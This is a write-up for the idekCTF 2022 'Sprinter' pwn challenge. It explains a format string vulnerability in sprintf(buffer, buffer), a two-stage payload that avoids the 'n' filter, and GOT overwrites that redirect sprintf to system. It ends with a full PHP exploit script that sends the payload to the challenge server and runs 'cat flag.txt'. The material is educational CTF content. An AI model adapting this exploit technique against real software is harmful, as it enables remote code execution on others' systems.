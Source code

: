 # Sprinter - idekCTF 2022 (pwn, 25 solved, 489p)

## Introduction
Sprinter is a pwn task.

An archive containing a binary and a libc is given.

The libc provided is `Ubuntu GLIBC 2.31-0ubuntu9.9`.

## Reverse engineering
The binary reads the user's input in a buffer on the stack.

There are checks made on this buffer:
- it must not contain any `n`
- its size (calculated with `strlen`) must be below 39

If both checks passe, the binary calls `sprintf(buffer, buffer)`.

```c
char buffer[0x100];

printf("Enter your string into my buffer, located at %p: ", buffer);
fgets(buffer, sizeof(buffer), stdin);

if(NULL == strchr(buffer, 'n'))
	if(strlen(buffer) < 39)
		sprintf(buffer, buffer);
```

## Vulnerability
The vulnerability is obviously a format string vulnerability.

## Exploitation
Since the binary calls `sprintf` with the same source and destination, it means
the buffer will be overwritten as the format string gets executed. This can be
troublesome. An easy way to avoid getting into troubles is to start the format
string with `%s` which will make a copy of the format string in the buffer
(copying itself to itself) and then interpret the rest of the format string.

The exploitation is a bit tricky because the binary checks that the buffer does
not contain an `n` by calling `strchr(buffer, 'n')`. The trick is to have a
format string in two stages, separated by a NULL byte. The first stage
"includes" the second stage which contains the actual payload (including the
`%n`).

The binary's GOT is not read-only. On top of that, it is not compiled with PIE.
This means it is possible to overwrite imported functions at a specific address
to take control the program's execution.

Since the output of the format string is bigger than the size of the buffer, it
will overwrite the canary present on the stack, which will call
`__stack_chk_fail`.

Replacing the GOT of `__stack_chk_fail` with the address of the `vuln` makes the
program call `vuln` a second time.

The libc given with this binary uses the following offsets:
```
   161: 0000000000061e20   197 FUNC    GLOBAL DEFAULT   15 sprintf@@GLIBC_2.2.5
  1430: 0000000000052290    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```

Notice how the two functions are close to each other. With a favourable ASLR
slide, the functions are located at:
```
... 06 fe 20 sprintf
... 06 02 90 system
```

Which means it is possible to redirect calls from `sprintf` to `system` by
changing only the 16 least significant bits of the GOT, with a chance of 1/16 on
average.

The `system` function is then called with the input provided by the user,
resulting in remote code execution.

**Flag**: `idek{help!_sprintf_ate_my_payload_and_i_cant_get_it_back!}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
const LOCAL = false;
const HOST  = "sprinter.chal.idek.team";
const PORT  = 1337;

function expect_check(string $left, string $right)
{
	if($left !== $right) {
		fprintf(STDERR, "Wanted: %s\n", $left);
		fprintf(STDERR, "Got:    %s\n", $right);
		throw new Exception("Unexpected data");
	}
}

function expect($fp, string $str)
{
	$data = fread($fp, strlen($str));
	expect_check($str, $data);
}

function expectLine($fp, string $line)
{
	$data = fgets($fp);
	expect_check("$line\n", $data);
}

function line($fp) : string
{
	$line = fgets($fp);

	if("\n" !== substr($line, -1))
		throw new Exception("fgets did not return a line");

	return substr($line, 0, -1);
}

function prompt($fp) : int
{
	expect($fp, "Enter your string into my buffer, located at 0x");
	$hex = fread($fp, strlen("7af7320965c0"));
	expect($fp, ": ");
	return hexdec($hex);
}

printf("[*] Opening connection\n");
$time = microtime(true);

$fp = fsockopen(HOST, PORT);

if(!LOCAL)
	expectLine($fp, "== proof-of-work: disabled ==");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$addr = prompt($fp);
printf("[+] Buffer: %X\n", $addr);

$payload  = "%s"; // rdx
$payload .= "%c"; // rcx
$payload .= "%c"; // r8
$payload .= "%d"; // r9

$payload .= "%c"; // stack + 0
$payload .= "%c"; // stack + 8
$payload .= "%c"; // stack + 0x10
$payload .= "%s"; // stack + 0x18
$payload  = str_pad($payload, 0x18, "\x00");

$payload .= pack("P", $addr + strlen($payload) + 8);
$payload .= "%4\$c"; // NULL byte

$c = fn($n) => sprintf("%%%03dc", 0xFF & $n);
$n = fn($i) => sprintf("%%%d\$hhn", $i);

$size = 0x50;

$payload .= $c(0x90 - $size);
$payload .= $n(33);
$size     = 0x90;

$payload .= $c(0xF6 - $size);
$payload .= $n(35);
$size     = 0xF6;

$payload .= $c(0x02 - $size);
$payload .= $n(34);
$size     = 0x02;

$payload .= $c(0x11 - $size);
$payload .= $n(36);
$size     = 0x11;

$pool = [
	0x00404048, // 33: sprintf
	0x00404049, // 34: sprintf + 1

	0x00404020, // 35: stack_chk_fail
	0x00404021, // 36: stack_chk_fail + 1
];

$payload  = str_pad($payload, 0x100 - 8 * sizeof($pool), "\x00");
$payload .= pack("P*", ... $pool);
$payload  = substr($payload, 0, 0xFF);

fwrite($fp, $payload);

prompt($fp);
fwrite($fp, "cat flag.txt\n");

while($buffer = fread($fp, 4096))
	echo $buffer;
```

